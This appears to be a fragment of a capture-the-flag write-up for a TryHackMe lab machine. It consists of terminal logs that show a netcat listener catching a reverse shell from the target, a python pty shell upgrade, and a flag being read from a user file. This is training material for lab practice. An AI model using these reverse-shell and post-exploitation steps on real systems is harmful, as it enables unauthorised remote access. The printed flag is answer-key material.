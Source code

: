 ```bash
devops@ip-10-201-0-156:/home/ubuntu$ ls -lah
total 24K
drwxr-xr-x 3 ubuntu ubuntu 4.0K Oct  1 15:32 .
drwxr-xr-x 5 root   root   4.0K Oct  1 15:32 ..
-rw-r--r-- 1 ubuntu ubuntu  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 ubuntu ubuntu 3.7K Feb 25  2020 .bashrc
-rw-r--r-- 1 ubuntu ubuntu  807 Feb 25  2020 .profile
drwx------ 2 ubuntu ubuntu 4.0K Oct  1 15:32 .ssh
```

```bash
devops@ip-10-201-0-156:~$ ls -lah /home/ubuntu/.ssh
ls: cannot open directory '/home/ubuntu/.ssh': Permission denied
```





```bash
@ip-10-201-41-112:~/Intranet# nc -nlvp 9001
Listening on 0.0.0.0 9001
Connection received on 10.201.0.156 46918
Linux ip-10-201-0-156 5.15.0-138-generic #148~20.04.1-Ubuntu SMP Fri Mar 28 14:32:35 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
 16:47:26 up  1:15,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1000(anders) gid=1000(anders) groups=1000(anders),24(cdrom),27(sudo),30(dip),46(plugdev)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1000(anders) gid=1000(anders) groups=1000(anders),24(cdrom),27(sudo),30(dip),46(plugdev)
$ whoami
anders
$ hostname
ip-10-201-0-156
$ which python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

anders@ip-10-201-0-156:/$ pwd
pwd
/
anders@ip-10-201-0-156:/$ cd /home/anders
cd /home/anders
anders@ip-10-201-0-156:/home/anders$ ls
ls
user2.txt
anders@ip-10-201-0-156:/home/anders$ cat user2.txt
cat user2.txt
THM{5c8f3b3bcbeeecded0f2541daf15a57c}
```
